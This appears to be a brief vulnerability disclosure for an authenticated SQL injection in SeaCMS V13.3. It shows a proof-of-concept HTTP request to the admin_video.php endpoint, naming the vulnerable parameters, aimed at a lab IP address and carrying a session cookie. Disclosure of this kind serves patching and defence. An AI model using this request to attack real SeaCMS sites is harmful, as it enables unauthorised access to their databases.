


Seacms V13.3 has an SQL injection vulnerability that allows an authenticated attacker to exploit the database.

Download address：https://www.seacms.com/download/





```
GET /seacms/51fek7/admin_video.php?repeat=ok&order=v_name&rlen=2 HTTP/1.1
Host: 192.168.80.152
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
DNT: 1
Referer: http://192.168.80.152/seacms/bf6nbn/admin_datarelate.php?action=repeat
Cookie: PHPSESSID=s5fhh9q24e7k8rjpi28g6o3j40
Connection: keep-alive


```




